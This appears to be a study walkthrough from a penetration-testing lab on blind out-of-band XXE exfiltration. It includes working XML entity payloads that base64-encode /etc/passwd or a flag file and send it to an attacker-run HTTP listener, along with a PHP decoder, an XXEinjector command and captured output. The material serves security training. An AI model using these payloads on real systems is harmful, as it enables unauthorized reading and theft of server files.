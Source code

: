 # 🐀 Blind Data Exfiltration

Let's imagine we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

### Out-of-band Data Exfiltration\*

Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

We will use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

And here is a PHP script (called index.php) to decode and output to the terminal ->

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Then we run a PHP webserver:

```shell-session
php -S 0.0.0.0:8000
```

Now we will simply add to our payload `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

And once we send the request, we should see in our terminal ->

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

### Automated OOB Exfiltration

We can use a tool like [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

And the command we need to launch will be:

```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

And the output will be displayed in a log file ->

```shell-session
ElFelixi0@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

_**Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**_

script.dtd ->

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.182:8000/?content=%file;'>">
```

<figure><img src="../../../../.gitbook/assets/image (1436).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (1437).png" alt=""><figcaption></figcaption></figure>
